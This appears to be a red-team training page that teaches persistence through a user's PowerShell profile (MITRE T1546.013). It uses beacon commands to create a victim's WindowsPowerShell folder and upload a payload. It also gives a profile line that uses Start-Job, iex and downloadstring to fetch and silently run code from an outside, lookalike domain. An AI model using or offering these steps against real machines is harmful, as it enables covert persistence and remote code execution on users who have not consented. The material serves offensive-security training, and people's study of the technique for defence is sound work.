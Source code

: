 # PowerShell Profile

A PowerShell profile, `profile.ps1`, is a script that executes when new PowerShell windows are opened by a user.  Developers often use these to customise the appearance and behaviour of their PowerShell sessions.  An adversary can create or modify the profile of a user to execute malicious code \[[T1546.013](https://attack.mitre.org/techniques/T1546/013/)].

Microsoft publishes details on where these profiles can be created for both [PowerShell](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-5.1) and [PowerShell Core](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.4).  For example, `$HOME\Documents\WindowsPowerShell\Profile.ps1`.

If the profile and/or directory doesn't exist, just create it.

```batch
ls C:\Users\pchilds\Documents

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     12/22/2024 16:47:10   My Music
          dir     12/22/2024 16:47:10   My Pictures
          dir     12/22/2024 16:47:10   My Videos
 402b     fil     12/22/2024 16:47:22   desktop.ini
 
beacon> mkdir C:\Users\pchilds\Documents\WindowsPowerShell
beacon> cd C:\Users\pchilds\Documents\WindowsPowerShell
```

It's important not to put any code into the profile that will block because the user will not be presented with an input prompt until the profile script has finished executing.  Some workarounds include executing the payload via the [Start-Job](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/start-job?view=powershell-5.1) cmdlet.

For example:

```powershell
$_ = Start-Job -ScriptBlock { iex (new-object net.webclient).downloadstring("http://bleepincomputer.com/a") }
```

Then upload the profile to the user's WindowsPowerShell directory.

```batch
beacon> upload C:\Payloads\Profile.ps1
```
